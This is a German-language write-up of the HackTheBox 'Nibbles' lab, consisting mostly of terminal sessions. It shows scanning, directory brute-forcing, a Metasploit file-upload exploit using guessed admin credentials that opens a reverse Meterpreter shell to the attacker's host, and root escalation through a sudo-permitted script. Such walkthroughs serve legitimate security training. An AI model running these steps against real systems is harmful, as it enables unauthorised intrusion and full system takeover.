 ```yaml
---
title: "HackTheBox - Nibbles"
date: 2010-01-01T01:01:56+01:00
toc: false
images:
tags:
  - hackthebox
  - ctf
---
```


[![Kurzes Video Walkthrough ohne Erklärungen](http://img.youtube.com/vi/YOUTUBE_VIDEO_ID_HERE/0.jpg)](http://www.youtube.com/watch?v=YOUTUBE_VIDEO_ID_HERE)

root@kali:~# nmap -sV -sC -Pn 10.10.10.75  
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-03 12:23 CEST  
Nmap scan report for 10.10.10.75  
Host is up (0.065s latency).  
Not shown: 998 closed ports  
PORT STATE SERVICE VERSION  
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:  
| 2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)  
| 256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)  
|_ 256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)  
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))  
|_http-server-header: Apache/2.4.18 (Ubuntu)  
|_http-title: Site doesn't have a title (text/html).  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 30.92 seconds

root@kali:~# gobuster -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php -u http://10.10.10.75/nibbleblog/ -t 75

Gobuster v1.4.1 OJ Reeves (@TheColonial)  
=====================================================  
=====================================================  
[+] Mode : dir  
[+] Url/Domain : http://10.10.10.75/nibbleblog/  
[+] Threads : 75  
[+] Wordlist : /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  
[+] Status codes : 200,204,301,302,307  
[+] Extensions : .php  
=====================================================  
/content (Status: 301)  
/index.php (Status: 200)  
/sitemap.php (Status: 200)  
/themes (Status: 301)  
/feed.php (Status: 200)  
/admin (Status: 301)  
/admin.php (Status: 200)  
/plugins (Status: 301)  
/install.php (Status: 200)  
/update.php (Status: 200)  
/languages (Status: 301)  
=====================================================

root@kali:~# searchsploit nibbleblog  
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------  
Exploit Title | Path  
| (/usr/share/exploitdb/)  
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------  
Nibbleblog - Arbitrary File Upload (Metasploit) | exploits/php/remote/38489.rb  
Nibbleblog - Multiple SQL Injections | exploits/php/webapps/35865.txt  
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------  
Shellcodes: No Result

Nur "Hello world!"

Zeile 16:

<!-- /nibbleblog/ directory. Nothing interesting here! -->

BILD

Settings -> Nach unten Scrollen -> Version -> Nibbleblog 4.0.3 "Coffee" - Developed by Diego Najar

root@kali:~# msfconsole

msf > search nibbleblog

Matching Modules  
================

Name Disclosure Date Rank Description  
---- --------------- ---- -----------  
exploit/multi/http/nibbleblog_file_upload 2015-09-01 excellent Nibbleblog File Upload Vulnerability

msf > use exploit/multi/http/nibbleblog_file_upload

msf exploit(multi/http/nibbleblog_file_upload) > show options

Module options (exploit/multi/http/nibbleblog_file_upload):

Name Current Setting Required Description  
---- --------------- -------- -----------  
PASSWORD yes The password to authenticate with  
Proxies no A proxy chain of format type:host:port[,type:host:port][...]  
RHOST yes The target address  
RPORT 80 yes The target port (TCP)  
SSL false no Negotiate SSL/TLS for outgoing connections  
TARGETURI / yes The base path to the web application  
USERNAME yes The username to authenticate with  
VHOST no HTTP server virtual host

Exploit target:

Id Name  
-- ----  
0 Nibbleblog 4.0.3

msf exploit(multi/http/nibbleblog_file_upload) > set password nibbles  
password => nibbles  
msf exploit(multi/http/nibbleblog_file_upload) > set rhost 10.10.10.75  
rhost => 10.10.10.75  
msf exploit(multi/http/nibbleblog_file_upload) > set targeturi /nibbleblog/  
targeturi => /nibbleblog/  
msf exploit(multi/http/nibbleblog_file_upload) > set username admin  
username => admin  
msf exploit(multi/http/nibbleblog_file_upload) > exploit

[*] Started reverse TCP handler on 10.10.15.148:4444  
[*] Sending stage (37775 bytes) to 10.10.10.75  
[*] Meterpreter session 1 opened (10.10.15.148:4444 -> 10.10.10.75:45084) at 2018-07-03 17:04:12 +0200  
[+] Deleted image.php

meterpreter > shell  
Process 21995 created.  
Channel 0 created.  
python3 -c "import pty;pty.spawn('/bin/bash')"  
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home  
<ml/nibbleblog/content/private/plugins/my_image$ cd /home

nibbler@Nibbles:/home$ ls  
ls  
nibbler  
nibbler@Nibbles:/home$ cd nibbler  
cd nibbler  
nibbler@Nibbles:/home/nibbler$ ls  
ls  
personal personal.zip user.txt  
nibbler@Nibbles:/home/nibbler$ cat user.txt  
cat user.txt  
b02#########################8d8

nibbler@Nibbles:/home$ sudo -l  
sudo -l  
sudo: unable to resolve host Nibbles: Connection timed out  
Matching Defaults entries for nibbler on Nibbles:  
env_reset, mail_badpass,  
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:  
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh  
nibbler@Nibbles:/home$ cat /home/nibbler/personal/stuff/monitor.sh  
cat /home/nibbler/personal/stuff/monitor.sh  
#!/bin/sh  
bash  
nibbler@Nibbles:/home$ sudo -u root /home/nibbler/personal/stuff/monitor.sh  
sudo -u root /home/nibbler/personal/stuff/monitor.sh  
sudo: unable to resolve host Nibbles: Connection timed out  
root@Nibbles:/home# cat /root/root.txt  
cat /root/root.txt  
b6d##########################88c